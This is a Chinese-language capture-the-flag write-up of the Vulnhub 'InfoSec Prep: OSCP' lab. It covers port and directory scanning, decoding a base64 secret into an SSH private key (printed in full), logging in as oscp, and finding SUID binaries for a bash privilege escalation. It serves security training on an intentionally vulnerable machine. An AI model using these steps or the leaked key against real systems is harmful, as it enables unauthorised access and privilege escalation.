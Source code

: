 ```yaml
---
title: INFOSEC PREP:OSCP
author: hgbe02
date: 2024-01-24
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Infosec-prep-oscp.html"
---
```


# INFOSEC PREP: OSCP

![image-20240124101139259](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209530.png)

听说这个靶场对新手比较友好，今天来试试，吃一堑长一智，这次使用virtualbox进行打开：

![image-20240124101305989](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209531.png)

ok，一切正常。

## 踩点

打开看一下有没有啥提示：

![172.20.10.4_](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209532.png)

随便点点，瞅瞅！找到一个登录界面：

![image-20240124101715360](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209533.png)	

还有提示：

```text
Heya! Welcome to the hunt.
In order to enter the give away, you must obtain the root flag located in /root/. Once you’ve obtained the flag, message the TryHarder bot with the command !flag <insert flag>. It will then validate the flag for verification. Should it be incorrect, it will let you know. If it’s correct, you will be given a new role on the server where you can chat with others in a private channel. Once you’ve received the role you are entered into the give away!
You must be a member of the server in order to use the command above.
For those downloading this box off vulnhub at a later time, the command above will no longer be available.
Oh yea! Almost forgot the only user on this box is “oscp”.
A big thank you to Offensive Security for providing the voucher.
Happy Hunting
-FalconSpy & InfoSec Prep Discord Server
( https://discord.gg/RRgKaep )
```

可以看出来只有一个用户名为OSCP，先扫一下开放端口和目录吧。

## 扫描开放端口

```shell
nmap -Pn -sT -p- IP -o nmap.txt -T4
```

我这里觉得太慢直接使用`nmap IP`出现了报错：

> Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-23 21:54 EST
> Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
> Nmap done: 1 IP address (0 hosts up) scanned in 3.03 seconds
>
> Solution: use  '-Pn' . 

结果如下：

```text
Nmap scan report for 172.20.10.4
Host is up (0.0015s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
33060/tcp open  mysqlx
```

## 目录扫描

使用`dirb`尝试：

```shell
dirb http://172.20.10.4/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209534.png" alt="image-20240124104654031" style="zoom:50%;" />

可以看到有`robots.txt`文件夹，看一下有没有啥惊喜：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209535.png" alt="image-20240124110548284" style="zoom:50%;" />

尝试访问一下，看看能不能访问：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209536.png" alt="image-20240124110631361" style="zoom:50%;" />

看到最后的`=`意识到这可能是`base64`编码，解码一下：

```shell
sudo curl -s 'http://172.20.10.4/secret.txt' | base64 --decode > 1.txt
```

这里如果出现问题就创建一个1.txt，给下权限再执行，获取ssh私钥，尝试连接：

```text
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

直接ssh连接上去：

```shell
ssh -i id_rsa oscp@172.20.10.4
# ssh服务开了的
# id_rsa是1.txt改了个名字：mv 1.txt id_rsa
# 用户名是给了的oscp
┌──(kali㉿kali)-[~/nmap/OSCP]
└─$ ssh -i id_rsa oscp@172.20.10.4
The authenticity of host '172.20.10.4 (172.20.10.4)' can't be established.
ED25519 key fingerprint is SHA256:OORLHLygIlTRZ4nXi9nq+WIrJ26fv7tfgvVHm8FaAzE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.20.10.4' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
  System information as of Wed 24 Jan 2024 03:28:22 AM UTC
  System load:  0.08               Processes:             172
  Usage of /:   26.8% of 19.56GB   Users logged in:       0
  Memory usage: 58%                IPv4 address for eth0: 172.20.10.4
  Swap usage:   0%
0 updates can be installed immediately.
0 of these updates are security updates.
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
```

## SUID提权

> SUID (Set UID)是Linux中的一种特殊权限,其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。但是SUID权限的设置只针对二进制可执行文件,对于非可执行文件设置SUID没有任何意义.
>
>  在执行过程中，调用者会暂时获得该文件的所有者权限,且该权限只在程序执行的过程中有效. 通俗的来讲,假设我们现在有一个可执行文件`ls`,其属主为root,当我们通过非root用户登录时,如果`ls`设置了SUID权限,我们可在非root用户下运行该二进制可执行文件,在执行文件时,该进程的权限将为root权限.

先使用find命令查找SUID文件：

```bash
find / -perm -u=s -type f 2>/dev/null
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209538.png" alt="image-20240124114110737" style="zoom:50%;" />

使用bash进行提权：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209539.png" alt="image-20240124115118466" style="zoom:50%;" />

获取flag。